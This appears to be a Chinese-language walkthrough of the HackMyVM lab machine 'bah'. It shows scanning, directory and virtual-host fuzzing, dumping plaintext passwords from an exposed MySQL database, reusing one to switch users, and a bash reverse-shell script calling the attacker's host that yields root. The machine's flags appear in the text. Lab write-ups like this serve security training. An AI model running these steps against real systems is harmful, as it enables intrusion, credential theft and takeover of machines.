








# 信息搜集
主机发现

```clike
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-24 00:33 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0016s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.00011s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.6 (192.168.21.6)
Host is up (0.080s latency).
MAC Address: C2:AB:39:9E:98:94 (Unknown)
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up (0.00020s latency).
MAC Address: 08:00:27:C9:3A:62 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.13 (192.168.21.13)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.34 seconds
```
端口扫描

```clike
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.11
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-24 00:34 EDT
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up (0.000093s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
3306/tcp open  mysql
MAC Address: 08:00:27:C9:3A:62 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.76 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p80,3306 192.168.21.11
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-24 00:35 EDT
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up (0.00029s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.18.0
3306/tcp open  mysql   MySQL 5.5.5-10.5.11-MariaDB-1
MAC Address: 08:00:27:C9:3A:62 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.78 seconds
```
# 漏洞利用
看一下80端口



目录扫描

```clike
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.11 -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.11
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 200) [Size: 1183]
/backups              (Status: 301) [Size: 169] [--> http://192.168.21.11/backups/]                                             
/batch                (Status: 301) [Size: 169] [--> http://192.168.21.11/batch/]                                               
/core                 (Status: 301) [Size: 169] [--> http://192.168.21.11/core/]                                                
/css                  (Status: 301) [Size: 169] [--> http://192.168.21.11/css/]                                                 
/favicon.ico          (Status: 200) [Size: 894]
/images               (Status: 301) [Size: 169] [--> http://192.168.21.11/images/]                                              
/install              (Status: 301) [Size: 169] [--> http://192.168.21.11/install/]                                             
/js                   (Status: 301) [Size: 169] [--> http://192.168.21.11/js/]                                                  
/robots.txt           (Status: 200) [Size: 26]
/sf                   (Status: 301) [Size: 169] [--> http://192.168.21.11/sf/]                                                  
/template             (Status: 301) [Size: 169] [--> http://192.168.21.11/template/]                                            
/uploads              (Status: 301) [Size: 169] [--> http://192.168.21.11/uploads/]                                             
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```
找到了相关漏洞







登录3306mysql

```clike
┌──(kali㉿kali)-[~]
└─$ mysql -h 192.168.21.11 -P 3306 -u qpmadmin -p --ssl=0
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 48
Server version: 10.5.11-MariaDB-1 Debian 11

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```
看一下有什么

```clike
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| hidden             |
| information_schema |
| mysql              |
| performance_schema |
| qpm                |
+--------------------+
5 rows in set (0.001 sec)
MariaDB [(none)]> use hidden
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [hidden]> show tables;
+------------------+
| Tables_in_hidden |
+------------------+
| url              |
| users            |
+------------------+
2 rows in set (0.001 sec)
MariaDB [hidden]> select * from url
    -> ;
+----+-------------------------+
| id | url                     |
+----+-------------------------+
|  1 | http://portal.bah.hmv   |
|  2 | http://imagine.bah.hmv  |
|  3 | http://ssh.bah.hmv      |
|  4 | http://dev.bah.hmv      |
|  5 | http://party.bah.hmv    |
|  6 | http://ass.bah.hmv      |
|  7 | http://here.bah.hmv     |
|  8 | http://hackme.bah.hmv   |
|  9 | http://telnet.bah.hmv   |
| 10 | http://console.bah.hmv  |
| 11 | http://tmux.bah.hmv     |
| 12 | http://dark.bah.hmv     |
| 13 | http://terminal.bah.hmv |
+----+-------------------------+
13 rows in set (0.000 sec)
MariaDB [hidden]> select * from users;
+----+---------+---------------------+
| id | user    | password            |
+----+---------+---------------------+
|  1 | jwick   | Ihaveafuckingpencil |
|  2 | rocio   | Ihaveaflower        |
|  3 | luna    | Ihavealover         |
|  4 | ellie   | Ihaveapassword      |
|  5 | camila  | Ihaveacar           |
|  6 | mia     | IhaveNOTHING        |
|  7 | noa     | Ihaveflow           |
|  8 | nova    | Ihavevodka          |
|  9 | violeta | Ihaveroot           |
+----+---------+---------------------+
9 rows in set (0.001 sec)
```
都保存下来，尝试一下模糊测试

```clike
┌──(kali㉿kali)-[~]
└─$ ffuf -c -r -u http://192.168.21.11 -H "HOST: FUZZ"  -w url.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.21.11
 :: Wordlist         : FUZZ: /home/kali/url.txt
 :: Header           : Host: FUZZ
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

:: Progress: [1/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:party.bah.hmv           [Status: 200, Size: 5216, Words: 1247, Lines: 124, Duration: 4ms]                                         
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00here.bah.hmv            [Status: 200, Size: 5653, Words: 569, Lines: 146, Duration: 9ms]                                          
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00terminal.bah.hmv        [Status: 200, Size: 5661, Words: 569, Lines: 146, Duration: 10ms]                                         
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00dev.bah.hmv             [Status: 200, Size: 5651, Words: 569, Lines: 146, Duration: 16ms]                                         
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00ssh.bah.hmv             [Status: 200, Size: 5651, Words: 569, Lines: 146, Duration: 17ms]                                         
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00ass.bah.hmv             [Status: 200, Size: 5651, Words: 569, Lines: 146, Duration: 23ms]                                         
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00imagine.bah.hmv         [Status: 200, Size: 5659, Words: 569, Lines: 146, Duration: 23ms]                                         
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00telnet.bah.hmv          [Status: 200, Size: 5657, Words: 569, Lines: 146, Duration: 30ms]                                         
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00console.bah.hmv         [Status: 200, Size: 5659, Words: 569, Lines: 146, Duration: 30ms]                                         
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00dark.bah.hmv            [Status: 200, Size: 5653, Words: 569, Lines: 146, Duration: 37ms]                                         
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00tmux.bah.hmv            [Status: 200, Size: 5653, Words: 569, Lines: 146, Duration: 38ms]                                         
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00portal.bah.hmv          [Status: 200, Size: 5657, Words: 569, Lines: 146, Duration: 44ms]                                         
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00hackme.bah.hmv          [Status: 200, Size: 5657, Words: 569, Lines: 146, Duration: 43ms]                                         
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```
更改一下/etc/hosts文件



访问一下



尝试使用sql账号密码登场



# 提权
看一下都有什么

```clike
qpmadmin@bah:~$ find / -perm -u=s -type f 2>/dev/null                                                                          
/usr/bin/chsh                                                                                                                  
/usr/bin/chfn                                                                                                                  
/usr/bin/passwd                                                                                                                
/usr/bin/gpasswd                                                                                                               
/usr/bin/su                                                                                                                    
/usr/bin/sudo                                                                                                                  
/usr/bin/umount                                                                                                                
/usr/bin/mount                                                                                                                 
/usr/bin/newgrp                                                                                                                
/usr/lib/openssh/ssh-keysign                                                                                                   
/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                    
qpmadmin@bah:~$ cat /etc/passwd | grep /bin/bash                                                                               
root:x:0:0:root:/root:/bin/bash                                                                                                
rocio:x:1000:1000:rocio,,,:/home/rocio:/bin/bash                                                                               
qpmadmin:x:1001:1001:,,,:/home/qpmadmin:/bin/bash                                                                              
qpmadmin@bah:~$ sudo -l                                                                                                        
                                                                                                                               
We trust you have received the usual lecture from the local System                                                             
Administrator. It usually boils down to these three things:                                                                    
                                                                                                                               
    #1) Respect the privacy of others.                                                                                         
    #2) Think before you type.                                                                                                 
    #3) With great power comes great responsibility.                                                                           
                                                                                                                               
[sudo] password for qpmadmin:                                                                                                  
Sorry, user qpmadmin may not run sudo on bah.                                                                                  
```
rocio用户在刚才数据库中有


切换到rocio用户成功

```clike
qpmadmin@bah:~$ su rocio                                                                                                       
Password:                                                                                                                      
rocio@bah:/home/qpmadmin$                                                                                                      
```
user.txt

```clike
rocio@bah:/home/qpmadmin$ cd ~                                                                                                 
rocio@bah:~$ ls -la                                                                                                            
total 32                                                                                                                       
drwxr-xr-x 3 rocio rocio 4096 Aug 18  2021 .
drwxr-xr-x 4 root  root  4096 Aug 18  2021 ..
-rw-r--r-- 1 rocio rocio  220 Aug 18  2021 .bash_logout                                                                        
-rw-r--r-- 1 rocio rocio 3526 Aug 18  2021 .bashrc                                                                             
drwxr-xr-x 3 rocio rocio 4096 Aug 18  2021 .local
-rw-r--r-- 1 rocio rocio  807 Aug 18  2021 .profile                                                                            
-rw------- 1 rocio rocio   16 Aug 18  2021 user.txt                                                                            
-rw------- 1 rocio rocio   49 Aug 18  2021 .Xauthority                                                                         
rocio@bah:~$ cat user.txt                                                                                                      
HdsaMoiuVdsaeqw                                                                                                                
```
看一看有什么可以利用的 

```clike
rocio@bah:~$ sudo -l                                                                                                           
                                                                                                                               
We trust you have received the usual lecture from the local System                                                             
Administrator. It usually boils down to these three things:                                                                    
                                                                                                                               
    #1) Respect the privacy of others.                                                                                         
    #2) Think before you type.                                                                                                 
    #3) With great power comes great responsibility.                                                                           
                                                                                                                               
[sudo] password for rocio:                                                                                                     
Sorry, user rocio may not run sudo on bah.                                                                                     
rocio@bah:~$ find / -perm -u=s -type f 2>/dev/null                                                                             
/usr/bin/chsh                                                                                                                  
/usr/bin/chfn                                                                                                                  
/usr/bin/passwd                                                                                                                
/usr/bin/gpasswd                                                                                                               
/usr/bin/su                                                                                                                    
/usr/bin/sudo                                                                                                                  
/usr/bin/umount                                                                                                                
/usr/bin/mount                                                                                                                 
/usr/bin/newgrp                                                                                                                
/usr/lib/openssh/ssh-keysign                                                                                                   
/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                    
rocio@bah:~$ which getcap                                                                                                      
rocio@bah:~$ whereis getcap                                                                                                    
getcap: /usr/sbin/getcap /usr/share/man/man8/getcap.8.gz                                                                       
rocio@bah:~$ /usr/sbin/getcap -r / 2>/dev/null                                                                                 
/usr/bin/ping cap_net_raw=ep                                                                                                   
```
上传一下linpeas.sh和pspy64



写个反弹shell

```clike
rocio@bah:/tmp$ nano dev
rocio@bah:/tmp$ chmod +x dev                                                                                                   
rocio@bah:/tmp$ cat dev                                                                                                        
#! /bin/bash                                                                                                                   
                                                                                                                               
bash -ip >& /dev/tcp/192.168.21.13/1234 0>&1                                                                                                                                                                      
```
访问http://party.bah.hmv/devel/，反弹成功

```clike
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234         
listening on [any] 1234 ...
connect to [192.168.21.13] from (UNKNOWN) [192.168.21.11] 56554
root@bah:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```
root.txt

```clike
root@bah:/# cd ~
cd ~
root@bah:~# ls -la
ls -la
total 24
drwx------  3 root root 4096 Aug 18  2021 .
drwxr-xr-x 18 root root 4096 Aug 18  2021 ..
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Aug 18  2021 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-------  1 root root   16 Aug 18  2021 root.txt
root@bah:~# cat root.txt
cat root.txt
HMVssssshell323
```